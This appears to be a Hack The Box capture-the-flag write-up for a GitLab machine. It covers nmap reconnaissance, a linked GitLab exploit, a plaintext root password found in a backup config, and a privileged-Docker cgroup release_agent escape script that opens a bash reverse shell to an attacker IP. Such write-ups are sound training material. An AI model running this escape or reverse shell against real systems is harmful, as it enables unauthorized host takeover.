










# Box 




https://www.hackthebox.eu/home/machines/profile/304

# Profile

  

https://www.hackthebox.eu/home/users/profile/296177

# Table of contents

* [Reconnaissance](#Reconnaissance)
* [Exploitation](#exploitation)
* [Post-Exploitation](#post-exploitation)
  + [User](#user)
  + [Root](#root)

# Contents 

## Reconnaissance

Let's start with nmap :

```bash
nmap -sV -sC -Pn --top-ports 1000 -oN scan_10.10.10.220 10.10.10.220
```



Let's go to the website, we have gitlab website that we can register : 



I foud the foothold quickly with the version : 



## Exploitation

This is the exploit I found  :

https://www.exploit-db.com/exploits/49334



## Post-Exploitation

### User

The group `git` can read the user.txt file.



### Root

I found a password in the `gitlab.rb` file in the `/opt/backup` folder



it worked for root so we have a login :

```
root:wW59U!ZKMbG9+*#h
```

Unfortunaly there is no root.txt in the `/root` folder because we are in a docker container. We have to escape.



In the previous folder there is anothing interesting file `docker-compose.yml`: 



In this file there is one particular interesting line 

```bash
 privileged: true
```

I've read  in the past  an exploit about privileged docker that can execute command on the host which you can find here : 

https://betterprogramming.pub/escaping-docker-privileged-containers-a7ae7d17f5a1

Modify the script to get a reverse shell : 

```bash
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent
echo '#!/bin/sh' > /cmd
echo "bash -c 'exec bash -i &>/dev/tcp/10.10.14.17/1234 <&1' > $host_path/output" >> /cmd
chmod a+x /cmd
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```



Rooted.

